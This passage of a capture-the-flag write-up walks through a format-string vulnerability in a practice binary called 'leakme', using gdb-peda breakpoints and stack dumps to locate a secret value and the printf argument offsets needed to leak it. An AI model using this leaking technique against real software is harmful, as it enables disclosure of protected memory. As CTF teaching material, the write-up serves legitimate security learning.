 This is pretty close to the C code. You will notice `mov    DWORD PTR [rbp-0x4],eax` stores the contents of `eax` into `rbp-0x4` — in other words, 4 bytes underneath the base pointer at that time. You can read more about the stack layout [here][1].

So, if we break right after that instruction, we can find out what address the magic number is stored at.

```
gdb-peda$ b * 0x00000000004009c7
Breakpoint 2 at 0x4009c7
gdb-peda$ r
Starting program: /home/ian/leakme
[----------------------------------registers-----------------------------------]
RAX: 0x46c8abb0
... TRUNCATED ...
[-------------------------------------code-------------------------------------]
   ... TRUNCATED ...
   0x4009c4 <main+37>:  mov    DWORD PTR [rbp-0x4],eax
=> 0x4009c7 <main+40>:  mov    eax,0x0
   0x4009cc <main+45>:  call   0x400857 <echo>
   ... TRUNCATED ...
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe4c0 --> 0x7fffffffe5c8 --> 0x7fffffffe7ed ("/home/ian/leakme")
0008| 0x7fffffffe4c8 --> 0x100400770
0016| 0x7fffffffe4d0 --> 0x7fffffffe5c0 --> 0x1
0024| 0x7fffffffe4d8 --> 0x46c8abb000000000 # AHA!!!!
... TRUNCATED ...
[------------------------------------------------------------------------------]
Breakpoint 2, 0x00000000004009c7 in main ()
gdb-peda$

```

So the magic number is on the stack. **In the same GDB session**, we can set a breakpoint on the vulnerable printf as before...

```
gdb-peda$ b * 0x00000000004008d6
Breakpoint 3 at 0x4008d6
gdb-peda$ continue
Continuing.
Give me something to say:
%zx
```

And print out more of the stack...
```
gdb-peda$ stack 20
0000| 0x7fffffffe440 --> 0x787a25 ('%zx') # this being the first, it's the 6th location
0008| 0x7fffffffe448 --> 0x0
0016| 0x7fffffffe450 --> 0x7ffff7ffa268 (add    BYTE PTR ss:[rax],al)
0024| 0x7fffffffe458 --> 0x7ffff7ffe710 --> 0x7ffff7ffa000 (jg     0x7ffff7ffa047)
0032| 0x7fffffffe460 --> 0x0
0040| 0x7fffffffe468 --> 0x0
0048| 0x7fffffffe470 --> 0x0
0056| 0x7fffffffe478 --> 0x756e6547 ('Genu') # 13
0064| 0x7fffffffe480 --> 0x9 ('\t')
0072| 0x7fffffffe488 --> 0x7ffff7a27e02 (<__random+98>: )
0080| 0x7fffffffe490 --> 0x46c8abb0ffffe4f8
0088| 0x7fffffffe498 --> 0x56b2248eb59a8b00
0096| 0x7fffffffe4a0 --> 0x0
0104| 0x7fffffffe4a8 --> 0x56b2248eb59a8b00
0112| 0x7fffffffe4b0 --> 0x7fffffffe4e0 --> 0x400a00 (<__libc_csu_init>:    push   r15)
0120| 0x7fffffffe4b8 --> 0x4009d1 (<main+50>:   lea    rdi,[rip+0x108]        # 0x400ae0)
0128| 0x7fffffffe4c0 --> 0x7fffffffe5c8 --> 0x7fffffffe7ed ("/home/ian/leakme")
0136| 0x7fffffffe4c8 --> 0x100400770
0144| 0x7fffffffe4d0 --> 0x7fffffffe5c0 --> 0x1
```

[1]: https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64
[2]: http://ctf.sigpwny.com